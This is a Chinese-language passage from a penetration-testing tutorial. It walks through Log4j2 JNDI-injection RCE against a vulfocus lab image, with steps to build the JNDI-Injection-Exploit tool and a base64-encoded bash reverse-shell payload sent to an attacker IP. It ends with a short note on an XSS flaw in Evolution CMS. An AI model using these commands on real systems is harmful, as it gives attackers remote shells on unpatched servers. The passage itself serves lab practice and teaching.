 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v4Qrp5RsicPia2VLnC1OYy80x0dMwbGXG7oECVZ97NAgAV04sR0VPhfwoLBNeoaUK1XSb5FHH8BZ9ag/640?wx_fmt=png&from=appmsg "")  
### JNDI注入导致RCE  
  
**环境**：  
  
2.0 ≤ Apache Log4j2 < 2.15.0-rc2  
  
拉取靶场镜像:docker pull vulfocus/log4j2-rce-2021-12-09:latest  
  
**利用JNDI工具**  
```
安装：git clone https://github.com/welk1n/JNDI-Injection-Exploit.git
切换目录：cd JNDI-Injection-Exploit
编译安装：mvn clean package -DskipTests 
切换到target目录  cd target

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v4Qrp5RsicPia2VLnC1OYy80xeO2NsM1p4OKUcfqxBVRwS4xyRcCbib2iaKg3gticeEP7icjNKvSYSRK8pg/640?wx_fmt=png&from=appmsg "")  
  
使用 JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar，依赖Java 版本1.8 或者1.7  
```
工具使用方式：java-jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -c"命令" -A “攻击机的IP”

```  
  
**服务器站点部署**  
  
部署：RMI服务或者LDAP服务  
  
目的:是要让受害者访问攻击者准备的恶意服务器，从而执行恶意代码，主要是获得受害者的权限，那么可以执行反弹shell的命令。  
  
将反弹shell通过JNDI注入工具部署在LDAP服务 或者RMI 服务中  
  
**利用工具得到payload**  
```
反弹shell命令：bash -i >& /dev/tcp/192.168.1.1/7788 0>&1  注：这里可以构造任意命令，base64编码。
base64编码后
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjAuMTA4Lzc3ODggMD4mMQoKCg==}|{base64,-d}|{bash,-i}

运行：java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjAuMTA4Lzc3ODggMD4mMQoKCg==}|{base64,-d}|{bash,-i}" -A "192.168.1.1"

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v4Qrp5RsicPia2VLnC1OYy80x2RNEVvsibDPyPd7WQuH6Clqh7lTwLnjKl00BErY22A5zlzAkdiaxsY0w/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v4Qrp5RsicPia2VLnC1OYy80xic2LMXDSu1vgWf8pcTnibSvKs5P4mp0nKib2DCK2pibfaQkicO1DL8qwCzQ/640?wx_fmt=png&from=appmsg "")  
### XSS漏洞导致的RCE  
  
**环境**：Evolution CMS 3.2.3  
  
Evolution CMS存在跨站脚本漏洞，该漏洞源于uid参数对用户提供的数据缺乏有效过滤与转义，攻击者可利用该漏洞通过注入精心设计的有效载荷执行任意Web脚本或HTML  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v4Qrp5RsicPia2VLnC1OYy80x9XUn1gJus7SjeG4erTP3Jbqgm4fEqdBLrCYV1DPxRiaSejmqH0Zgwibg/640?wx_fmt=png&from=appmsg "")  
  